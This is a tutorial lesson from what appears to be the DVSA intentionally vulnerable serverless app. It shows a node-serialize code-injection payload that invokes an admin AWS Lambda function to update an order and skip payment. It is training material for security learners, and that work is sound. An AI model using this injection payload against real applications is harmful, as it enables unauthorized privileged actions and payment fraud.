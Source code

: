 # LESSON #5: Broken Access Control

The DVSA application has some admin functions. Although these functions are not available through the standard API calls, the function that receives the API calls has permissions to invoke any function. Since the function is vulnerable to [code injection](../LESSONS/LESSON_01.md) it is possible to invoke admin function using the standard API calls.

This means that by invoking the right function at the right time, we can skip the payment. But, first, we start with the normal flow:

- `{"action": "new", "cart-id": "xxxxxxxx-xxxx-xxxx-xxxx-xxxxxxxxxxxx", "items": { "<item-id>":<qty>, "<item-id>":<qty>, ... }}`

- `{"action": "shipping", "order-id": "yyyyyyyy-yyyy-yyyy-yyyy-yyyyyyyyyyyy", "data": {"address":"<address>", "email":"<email>", "name":"<name>"}}`

- `{"action": "billing", "order-id": "yyyyyyyy-yyyy-yyyy-yyyy-yyyyyyyyyyyy", "data": {"ccn":"4242424242424242", "exp":"11/22", "cvv":"123 }}`

Now that we have an order that is missing only the payment, let's exploit.

To admin function receives an order Id and the parameters to update, so we can send something like that:

```
{
  "body": {
    "action": "update",
    "order-id": "cc241d5c-f665-48db-8e55-4391f62465ba",
    "item": {
      "userId": "12312312-1233-1233-1233-123123123123",
      "token": "aSD32d2ASd2",
      "ts": "1545594489",
      "itemList": {
        "20": 2
      },
      "address": {
        "name": "john doe",
        "email": "secret@email.com",
        "address": "po box 31337"
      },
      "total": 25,
      "status": 120
    }
  }
}
```

Now, we have to pass it as part of the exploit itself:

```
{"action": "_$$ND_FUNC$$_function(){var p=JSON.stringify(' + new_order + ');var a=require(\\"aws-sdk\\");var l=new a.Lambda();var x={FunctionName:\\"DVSA-ADMIN-UPDATE-ORDERS\\",InvocationType:\\"RequestResponse\\",Payload:p};l.invoke(x, function(e,d){});}()"}
```

Which eventually looks like that:

```
{"action": "_$$ND_FUNC$$_function(){var p=JSON.stringify({\"headers\":{\"authorization\":\"eyJra ... l7g10i5Q\"}, \"body\":{\"action\":\"update\", \"order-id\": \"480e3996-e8a7-4fdb-bc12-94fdae1e14fb\", \"item\":{\"token\": \"VFqDWCgagMO7\", \"ts\": 1546482872, \"itemList\": {\"11\": 1, \"12\": 1}, \"address\": \"100 Fake st., NYC, USA\", \"total\": 74, \"status\": 120}}});var a=require(\"aws-sdk\");var l=new a.Lambda();var x={FunctionName:\"DVSA-ADMIN-UPDATE-ORDERS\",InvocationType:\"RequestResponse\",Payload:p};l.invoke(x, function(e,d){});}()"}
```

![alt stealing](https://i.imgur.com/FrzRrjS.png)

We got an error from the API function. But the database was updated with the new data. Since we did not issue a SQS notification for the payment, the receipt will be proccessed with a daily cron-job function. However, it is already possible to see it in the orders page.


Before:
![alt before](https://i.imgur.com/9nENtUW.png)

After:
![alt after](https://i.imgur.com/czspPpV.png)


- - -
[ToC](../LESSONS/README.md) | [1](../LESSONS/LESSON_01.md) | [2](../LESSONS/LESSON_02.md) | [3](../LESSONS/LESSON_03.md) | [4](../LESSONS/LESSON_04.md) | [5](../LESSONS/LESSON_05.md) | [6](../LESSONS/LESSON_06.md) | [7](../LESSONS/LESSON_07.md) | [8](../LESSONS/LESSON_08.md) | [9](../LESSONS/LESSON_09.md) | [10](../LESSONS/LESSON_10.md)

